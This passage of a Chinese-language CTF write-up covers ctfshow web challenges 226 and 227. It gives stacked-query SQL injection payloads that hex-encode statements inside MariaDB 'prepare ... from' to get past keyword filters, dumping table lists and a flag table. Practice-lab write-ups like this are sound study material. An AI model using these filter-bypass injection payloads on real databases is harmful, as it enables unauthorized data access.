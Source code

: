 ![2253](/medias/show-sql/2253.png)

::: tip
通过拼接执行`select version();`，发现这是`{version(): "10.3.18-MariaDB"}`，是mysql的一个分支，大多数语法都是兼容的，但是在这里的执行动态拼接语句是一个不兼容问题。  
`MariaDB`可以执行`concat`函数拼接的sql语句，`Mysql`更严格，不允许
:::

## web 226 16进制+预处理

`prepare from`还可以直接处理十六进制字符串，太强了。测试发现，`mysql`是不兼容这个语法，局限于题目的这个MariaDB数据库了。

```sql
# show tables
prepare a from 0x73686F77207461626C65733B;execute a;#
# select *from ctfsh_ow_flagas
prepare a from 0x73656C656374202A66726F6D2063746673685F6F775F666C61676173;execute a;#
```

## web 227  数据存储过程

新增过滤`db``,`，上一题的思路还能用

```sql
# show tables  只有一个ctfshow_user表
prepare a from 0x73686F77207461626C65733B;execute a;#
# select *from ctfshow_user 查到的信息都是题目已经给的
prepare a from 0x73656C656374202A66726F6D2063746673686F775F75736572;execute a;#
```
